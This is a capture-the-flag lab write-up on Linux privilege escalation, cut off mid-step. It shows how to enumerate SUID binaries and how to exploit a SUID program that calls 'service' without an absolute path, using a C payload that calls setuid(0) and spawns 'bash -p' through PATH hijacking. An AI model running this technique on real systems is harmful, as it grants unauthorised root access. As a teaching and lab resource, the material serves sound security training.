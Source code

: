  CTF NOTE:
-----------------------------------------------------------------------------------------------------------------------------
#### When this command doesn't work:
```
$ find /usr/local/bin -type f -perm/4000 -exec ls -l {} \; 2>>/dev/null
```
Do this:
```
$ ls -l /usr/local/bin | grep -iE "ws|-s|s-" 

OR simply,

$ ls -l /usr/local/bin | grep -iE ws

-rwsr-sr-x 1 root staff 6883 May 14  2017 suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 suid-env2
-rwsr-sr-x 1 root staff 9861 May 14  2017 suid-so
```
> This is because not always SUID permission will be permitted to `owner` only, it can also be alloted to group or other users, then `-perm/4000` would not match the conditions.
-----------------------------------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------------------------------------

## Task13: SUID / SGID Executables - Environment Variables:

### Step1: Dumping the permission of the environment variables

The `/usr/local/bin/suid-env` executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without ***specifying an absolute path***.

### Step2: execute the file:
```
[....] Starting web server: apache2httpd (pid 1614) already running
. ok
```
NOTE:
> It seems to be trying to start the apache2 webserver

### step3: Run strings on the file to look for strings of printable characters:
```
$ strings /usr/local/bin/suid-env
 
 X -- snip -- X
service apache2 start
```
> We would take adv. of not specifying the absolute path => we would make one of our own to exploit this vuln.

```c
// c code to be executed as binary by `/usr/local/bin/suid-env`

int main() {
        setuid(0);
        system("/bin/bash -p");
}
```
### Step4: compile code:
```
$ gcc -o service /home/user/tools/suid/service.c
```
### Step5: Adding `pwd` to `PATH` and executing binary: